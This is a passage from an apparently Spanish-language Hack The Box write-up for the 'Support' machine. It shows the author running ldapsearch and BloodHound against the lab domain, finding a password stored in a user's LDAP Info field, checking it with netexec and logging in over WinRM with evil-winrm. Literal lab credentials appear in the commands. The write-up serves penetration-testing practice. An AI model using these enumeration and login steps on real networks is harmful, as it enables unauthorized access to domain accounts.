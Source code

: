 El siguiente comando procederemos a enumerar al usuario "**support**" para ver que información tiene. Nos damos cuenta que en el campo "Info" aparece una cadena de texto que parece inusual, más bien, parace de tratarse de una contraseña.

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i "samaccountname: support" -B 40
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/861_vmware_DDjhu1VHrE.png" alt=""><figcaption></figcaption></figure>

### Enumeration with Bloodhound

Una de las mejores maneras de enumerar LDAP es a través de **BloodHound** el cual recolectando toda la información del dominio podemos montarnos una BBDD con todo el dominio y ver que vías potenciales disponemos para escalar privilegios, etc.

Ene ste caso enumeramos des de Bloodhound al usuario "support" y nos damos cuenta que pertenece al grupo de usuarios de gestión remota, es decir "Remote Management Users". Por lo tanto, es un buen indicio que con dicho usuario podemos conectarnos al WinRM que encontramos expuesto a la hora de escanear los puertos con **nmap**.

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/860_vmware_6pydFiYk13.png" alt=""><figcaption></figcaption></figure>

## Flag user.txt

Procederemos de validar con **netexec** de que con el usuario **support** y las credenciales encontradas en el campo "Info" de su usuario de LDAP són válidas o no para el acceso al WinRM.

Comprobamos que nos aparece como **Pwn3d**, por lo tanto, comprobamos que son credenciales válidas y además que tenemos acceso al WinRM, ya que si no tuvieramos acceso al WinRM, nos habría salido en \[+] (indicando que las credenciales son válidas), pero no nos hubiera indicado el Pwn3d.

```bash
netexec winrm 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```

<figure><img src="../../../../../.gitbook/assets/862_vmware_OmHQzURr1O.png" alt=""><figcaption></figcaption></figure>

Una vez comprobado que si tenemos acceso, procederemos a conectarnos a la máquina víctima con el usuario "support" y sus respectivas credenciales. Comprobaremos que ganamos acceso y vemos el contenido de la flag de **user.txt**.

{% code overflow="wrap" %}
```bash
evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```
{% endcode %}
